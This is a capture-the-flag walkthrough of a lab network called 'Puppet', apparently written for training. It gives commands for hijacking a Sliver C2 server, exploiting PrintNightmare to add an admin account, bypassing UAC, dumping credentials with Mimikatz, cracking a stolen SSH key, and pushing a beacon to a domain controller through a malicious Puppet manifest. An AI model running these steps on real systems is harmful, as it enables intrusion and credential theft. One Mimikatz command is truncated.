# Puppet


## Flag 1

First, scan the target using `nmap`:

```cmd
nmap 10.13.38.33 -sC -sV -Pn
```


```cmd
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-27 21:01 +0630
Nmap scan report for 10.13.38.33
Host is up (0.38s latency).
Not shown: 996 closed tcp ports (reset)
PORT      STATE SERVICE        VERSION
21/tcp    open  ftp            vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw----r--    1 0        0            2119 Oct 11  2024 red_127.0.0.1.cfg
|_-rwxr-xr-x    1 0        0        36515304 Oct 12  2024 sliver-client_linux
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.246
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp    open  ssh            OpenSSH 8.9p1 Ubuntu 3ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 e2:70:df:74:8c:ed:e9:81:46:16:e4:88:bc:7f:69:32 (ECDSA)
|_  256 bf:f0:f1:8f:5b:66:93:9b:cb:8b:bc:78:37:b8:b8:3a (ED25519)
8443/tcp  open  ssl/https-alt?
| ssl-cert: Subject: commonName=0.0.0.0
| Subject Alternative Name: IP Address:0.0.0.0
| Not valid before: 2024-12-24T14:49:26
|_Not valid after:  2027-12-24T14:49:26
|_ssl-date: TLS randomness does not represent time
31337/tcp open  ssl/Elite?
| ssl-cert: Subject: commonName=multiplayer
| Subject Alternative Name: DNS:multiplayer
| Not valid before: 2024-05-11T12:31:48
|_Not valid after:  2027-05-11T12:31:48
|_ssl-date: TLS randomness does not represent time
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.62 seconds
```

The FTP service allows anonymous login and exposes two interesting files: a Sliver client config (`red_127.0.0.1.cfg`) and the Sliver client binary itself (`sliver-client_linux`). These can be used to establish persistence via the Sliver C2 framework.

```cmd
ftp 10.13.38.33
```


```cmd
┌──(kali㉿kali)-[~/Downloads]
└─$ ftp 10.13.38.33
Connected to 10.13.38.33.
220 (vsFTPd 3.0.5)
Name (10.13.38.33:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> mget red_127.0.0.1.cfg sliver-client_linux
mget red_127.0.0.1.cfg [anpqy?]? y
229 Entering Extended Passive Mode (|||27051|)
150 Opening BINARY mode data connection for red_127.0.0.1.cfg (2119 bytes).
100% |**********************************************************************************************************************************************************************************************|  2119      779.99 KiB/s    00:00 ETA
226 Transfer complete.
2119 bytes received in 00:00 (6.45 KiB/s)
mget sliver-client_linux [anpqy?]? y
229 Entering Extended Passive Mode (|||33988|)
150 Opening BINARY mode data connection for sliver-client_linux (36515304 bytes).
 83% |*************************************************************************************************************************************************************                                 | 29693 KiB   24.78 KiB/s    04:00 ETA 100% |**********************************************************************************************************************************************************************************************| 35659 KiB   25.31 KiB/s    00:00 ETA
226 Transfer complete.
36515304 bytes received in 23:28 (25.31 KiB/s)
ftp>
```

#### `mget` command notes

```cmd
mget red-127.0.0.1.cfg sliver-client_linux
```

- **`mget`** — an FTP client command that downloads multiple remote files in one go, prompting for confirmation on each file (unless interactive mode is disabled).
- **`red_127.0.0.1.cfg`** — the Sliver client configuration file. It contains the connection details (host, port, certificates) needed for the Sliver client to authenticate to the C2 server.
- **`sliver-client_linux`** — the Linux Sliver C2 client binary used to connect to and control the C2 server/implants.

## To get initial access

```cmd
sudo socat TCP-LISTEN:31337,reuseaddr,fork TCP:10.13.38.33:31337
```

- **`sudo`** — runs the command with administrator (root) privileges, required to bind low-numbered/privileged ports if needed.
- **`socat`** — a Linux tool that relays network traffic between two endpoints (port forwarding / tunneling).
- **`TCP-LISTEN:31337`** — opens port `31337` on the local machine and listens for incoming connections.
- **`reuseaddr`** — allows the port to be reused immediately after it's released, preventing "address already in use" errors.
- **`fork`** — spawns a new process for each incoming connection so multiple connections can be handled simultaneously.
- **`TCP:10.13.38.33:31337`** — forwards all traffic received locally straight through to port `31337` on the target IP `10.13.38.33`.

**Why this is needed:** The Sliver client config file is pinned to `127.0.0.1`, so the client will always try to connect to port `31337` on *localhost*. The real C2 server, however, is listening on the remote host (`10.13.38.33`). Using `socat` creates a local "bridge": when the client connects to `127.0.0.1:31337`, `socat` transparently forwards that connection to the real server at `10.13.38.33:31337`.

```cmd
┌──(kali㉿kali)-[~/Downloads]
└─$ ./sliver-client_linux import ./red_127.0.0.1.cfg
2026/10/27 22:39:05 Saved new client config to: /home/kali/.sliver-client/configs/red_127.0.0.1.cfg
```


- `sliver-client_linux` is the client application itself.
- `red_127.0.0.1.cfg` is the configuration ("key") the application needs to connect to the C2 server.
- Running the app before importing the config produces a "config not found" error, since no config has been loaded yet.

```cmd
┌──(kali㉿kali)-[~/Downloads]
└─$ ./sliver-client_linux
```

To connect to the Sliver server:


```cmd
sliver > beacons
```

`beacons` lists all currently checked-in Sliver beacons (asynchronous implants that call back on a schedule rather than staying connected interactively).


```cmd
sliver (BLUSHING_ERROR) > interactive
```


The `interactive` command upgrades a beacon from **beacon mode** (periodic check-ins) to an **interactive session** (a real-time, continuous connection), by instructing the C2 server to send the appropriate command to the target.

Then select the session:

```cmd
use session_id
```


**Puppet** is a configuration management tool: in DevOps and system administration, Puppet automatically installs software, runs scripts, and enforces security settings across large numbers of servers — an infrastructure automation tool.

### Why `whoami` differs from `sa-whoami`

**Standard `whoami` (built-in binary):**
Windows' native `whoami.exe` is invoked from a shell (`cmd.exe` or `powershell.exe`). Because it spawns a brand-new child process from disk, EDR/AV products are more likely to flag it (higher detection risk).

**`sa-whoami` (Sliver Armory extension / BOF):**
"SA" stands for Situational Awareness. This extension executes directly in memory via Windows API calls — without spawning a separate `whoami.exe` process — to retrieve the target's username, domain, groups, and privileges. Because it stays under the radar of EDR/AV and runs quickly, it's widely favored by C2 operators.

Install it first:

```cmd
armory install sa-whoami
```

Use it:


Navigate to the working directory:

```cmd
cd c://temp
```

Then install SharpHound:

```cmd
armory install sharp-hound-4
```

And run it:

```cmd
sharp-hound-4 -s -t 300 -- -c all,gplocalgroup
```


Then go to the file path `c://tmp` and download the collected data:

```cmd
download 20261027120553_BloodHound.zip
```


Then install `sa-adcs-enum`:

```cmd
armory install sa-adcs-enum
```

---

### 📊 At a Glance: `sa-adcs-enum`

| Check | With `sa-adcs-enum` (USE) | Without it (NOT USE) |
| --- | --- | --- |
| **AD CS vulnerabilities (ESC templates)** | Misconfigured certificate templates are easily identified and can be remediated in advance. | Misconfigurations stay hidden, leaving the risk of **domain impersonation / privilege escalation**. |
| **User rights & permissions** | Clearly shows exactly which users can enroll for which certificates. | Excess enrollment rights held by ordinary domain users go unnoticed. |
| **Security hardening** | CA security gaps can be systematically closed. | Sensitive certificates may continue to be issued automatically without oversight. |

---

Use it:

```cmd
sa-adcs-enum
```


`sa-netstat` enumerates active network connections and listening ports on the target, along with the process IDs (PIDs) / executables using them.

To find the flag, use:

```cmd
execute -o -- cmd.exe /c dir "C:\Users\Bruce.Smith\Desktop"
execute -o -- cmd.exe /c type "C:\Users\Bruce.Smith\Desktop\flag.txt"
```

## Flag 2

**PrivescCheck** is a PowerShell script that automatically hunts for security weaknesses and misconfigurations on Windows systems that could allow privilege escalation.

**What it's used for:** Red teamers and penetration testers use it after gaining initial access to a Windows machine as a normal (low-privileged) user, to find ways to escalate to SYSTEM or Administrator.

First, install the extension:

```cmd
armory install sharpsh
```

```cmd
sharpsh -t 300 -- -c invoke-privesccheck -u c:\\temp\\PrivescCheck.ps1
```

This command uses Sliver's `sharpsh` (PowerShell script execution extension) to fetch and run `PrivescCheck.ps1` on the target Windows machine, searching for weaknesses that could lead to SYSTEM or Administrator privileges.

🔍 **Command breakdown**

**`sharpsh`** — the Sliver extension/tool that allows running PowerShell scripts through Sliver.

First, download PrivescCheck:

```cmd
wget https://github.com/itm4n/PrivescCheck/releases/latest/download/PrivescCheck.ps1
```

Upload it to `C:\temp\PrivescCheck.ps1`:

```cmd
upload /home/kali/Downloads/PrivescCheck.ps1 C:\temp\PrivescCheck.ps1
```


Check for vulnerabilities:

```cmd
sharpsh -t 300 -- -c invoke-privesccheck -u c:\\temp\\PrivescCheck.ps1
```


**PrintNightmare** (CVE-2021-34527 / CVE-2021-1675) is a vulnerability in the Windows Print Spooler service (`spoolsv.exe`) that allows unintended privilege escalation / remote code execution.

First, download the exploit:

```cmd
git clone https://github.com/JohnHammond/CVE-2021-34527.git
```

Upload the file:

```cmd
upload /home/kali/Downloads/CVE-2021-34527/CVE-2021-34527.ps1 C:/Windows/temp/CVE-2021-34527.ps1
```


```cmd
execute -o -- powershell.exe -ExecutionPolicy Bypass -NoProfile -Command ". C:/Windows/temp/CVE-2021-34527.ps1; Invoke-Nightmare -NewUser adm1n -NewPassword P@ssw0rd"
```

This command exploits the Print Spooler vulnerability CVE-2021-34527 (PrintNightmare) to create a new local Administrator account on the Windows system.


```cmd
runas -u adm1n -P "P@ssw0rd" -p "C:\ProgramData\Puppet\puppet-update.exe"
```

This command uses the newly created Administrator account (`adm1n`) inside Sliver to run a program with elevated privileges.

**Breakdown:**

1. **`runas`** — the Sliver command used to execute a command as another user (execute as another user).
2. **`-u adm1n`** — specifies that the new username created via the PrintNightmare exploit, `adm1n`, should be used.
3. **`-P "P@ssw0rd"`** — supplies the password for the `adm1n` account for authentication.
4. **`-p "C:\ProgramData\Puppet\puppet-update.exe"`** — uses `adm1n`'s Administrator-level privileges to run a specified program on the target system (in this case, an `.exe` related to the Puppet lab, or a payload/beacon).

**In short:** this uses the freshly created Administrator account (`adm1n`) to run a C2 payload with Administrator-level privileges — the **privilege execution / lateral movement** stage of the red-team engagement.


Check what permissions this account has:

```cmd
sa-whoami
```


**UAC-BOF-Bonanza** is an open-source repository of BOFs (Beacon Object Files) used in red teaming/penetration testing to bypass Windows **UAC (User Account Control)**.

**Key points:**

1. **What is UAC bypass?**
   On Windows, even a user logged in as Administrator still gets a "Do you want to allow this app to make changes to your device?" confirmation prompt (the UAC prompt) when software tries to make system-level changes. A UAC bypass skips that prompt entirely, allowing code to run with Administrator rights without the user's confirmation.

2. **What is a BOF (Beacon Object File)?**
   BOFs are lightweight, effective extensions used in C2 frameworks like Cobalt Strike and Sliver. Unlike a regular `.exe`, they run directly in the target's memory without spawning a large new process, which helps evade AV/EDR detection (defense evasion).

**In short:** the `UAC-BOF-Bonanza` repository contains source code for several UAC bypass techniques (e.g. `SspiUacBypass`), which red teamers compile and load as extensions into C2 frameworks such as Sliver.

```cmd
git clone https://github.com/icyguider/UAC-BOF-Bonanza.git
```

First, you'll need the MinGW cross-compiler (`x86_64-w64-mingw32-g++`) installed on Kali, since it's required to cross-compile Windows binaries.

The next two commands build the `SspiUacBypass` (UAC bypass) source into a working binary:

```cmd
cd ~/Downloads/UAC-BOF-Bonanza/SspiUacBypass
make
```

- **`cd ~/Downloads/UAC-BOF-Bonanza/SspiUacBypass`** — navigates to the folder containing the `SspiUacBypass` source code.
- **`make`** — compiles the C++ source using the MinGW compiler, automatically producing a usable Windows `.exe` and accompanying `.o` object files.

Upload the resulting file to the Sliver server:

```cmd
upload /home/kali/Downloads/UAC-BOF-Bonanza/SspiUacBypass/bin/standalone/SspiUacBypass.exe C:/Windows/temp/bypass.exe
```


Run it in the Sliver session:

```cmd
execute -o -- "C:\Windows\temp\bypass.exe" "C:\ProgramData\Puppet\puppet-update.exe"
```

### Extracting credentials with Mimikatz (sideloading)

Once in the session, copy and run the following command:

```cmd
sideload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe "privilege::debug" "sek
```



Find the flag:



## Flag 3

Use:

```cmd
ps
```

`ps` ("process status") is a command used on Linux/Unix systems to view the state and details of currently running processes.

Found `ruby.exe`:



Use `migrate`:

```cmd
migrate -p 556
```

`migrate -p <PID>` tells a C2 framework (Metasploit/Meterpreter or Sliver) to move the current session/payload into the process with the given PID.



Then switch to another session:

```cmd
sessions
```



And then migrate.

Now use:

```cmd
sliver (BLUSHING_ERROR) > execute -o -- arp -a
```

**Why `execute -o -- arp -a`?**

This command is used to check the IP-to-MAC address mappings of devices previously seen on the local network — useful in the Puppet lab for understanding what other machines exist on the network.



```cmd
sa-netshares dc01
```

`sa-netshares dc01` enumerates the network shares available on the `DC01` machine.

```cmd
ls \\dc01.puppet.vl\it
```

Lists the files and folders inside the `IT` network share on `DC01`.



```cmd
ls \\dc01.puppet.vl\it\.ssh
```

**Why `ls \\dc01.puppet.vl\it\.ssh`?**

This lists the contents of the `.ssh` folder inside `DC01`'s `IT` network share.

- `ls` — lists files and folders.
- `\\dc01.puppet.vl\it` — refers to the `IT` network share on `DC01`.
- `.ssh` — a folder likely to contain SSH keys and configuration files.

**Purpose in the Puppet lab:** check whether SSH key files exist, to plan the next step.



Download the file:

```cmd
download \\dc01.puppet.vl\it\.ssh\ed25519
```



```cmd
mv '\\dc01.puppet.vl\it\.ssh\ed25519' ed25519
```

```cmd
ls -l ed25519
```

```cmd
john ed25519.hash --wordlist=/usr/share/wordlists/rockyou.txt
```



Set up port forwarding:

```cmd
portfwd add --bind 2222 -r 172.16.40.200:22
```



Use this command:

```cmd
ssh -i ~/Downloads/ed25519_lf -o IdentitiesOnly=yes 'svc_puppet_lin_t1@puppet.vl'@10.13.38.33
```



Use:

```cmd
sudo -l
```

`sudo -l` checks which commands the current Linux user is allowed to run with administrator/root privileges via `sudo`.


## Flag 4

First:

```cmd
mkdir -p /etc/puppet/code/environments/production/manifests
```

This creates the folder where Puppet stores its instructions — for example, the `site.pp` file, which defines what configuration should be applied to which machine, and Puppet carries out those instructions accordingly.

Then run:

```cmd
cat > /etc/puppet/code/environments/production/manifests/site.pp << 'EOF'
node 'dc01.puppet.vl' {
  exec { 'pwned':
    command   => 'C:\\Windows\\System32\\cmd.exe /c \\\\file01.puppet.vl\\files\\update.exe',
    logoutput => true,
  }
}
node default {
  notify { 'This is the default node': }
}
EOF
```

This writes an instruction into Puppet's `site.pp` manifest specifying which command should run on which machine. `node 'dc01.puppet.vl'` targets `DC01`. The `exec` resource defines a Windows command to run — in this example, attempting to execute `update.exe` from the `file01.puppet.vl` share. `logoutput => true` logs the command's output. `node default` applies to any node not otherwise specified, and `notify` simply displays a message. **Note:** since this manifest is designed to execute a binary on `DC01`, always double-check exactly what file you're instructing it to run.

Then run:

```cmd
generate beacon --mtls 172.16.40.200:8443 --os windows --arch amd64 --save /tmp/update.exe
```

This generates a Sliver beacon payload used to establish a connection between the `DC01` Windows machine and the Sliver C2 server. In this lab, it's used to test the attack path during authorized security testing. **Note:** this same technique can be used to take unauthorized remote control of a machine — only use it in your own lab or an environment you're explicitly authorized to test.

```cmd
use 18b16445  # svc_puppet_win_t1 session
```

Upload the file via the Sliver server:

```cmd
upload /tmp/update.exe \\file01.puppet.vl\files\update.exe
```

Download SharpDPAPI:

```cmd
git clone https://github.com/Flangvik/SharpCollection.git
```

**SharpDPAPI** is a security tool used to inspect data protected by Windows' DPAPI (Data Protection API).

Why it's used:
- **Security testing** — to evaluate how well Windows-protected data is secured.
- **Credential security** — to check how Windows credentials and secrets are protected.
- **Penetration testing** — to understand potential credential exposure within an authorized lab environment.

Upload the file via the Sliver server:

```cmd
upload /home/kali/tools/SharpCollection/NetFramework_4.7_x64/SharpDPAPI.exe c:\users\public\SharpDPAPI.exe
```

Run it:

```cmd
execute -o -- "c:\users\public\SharpDPAPI.exe" machinetriage
```



## Achievement

*(Add the completion screenshot / proof link here.)*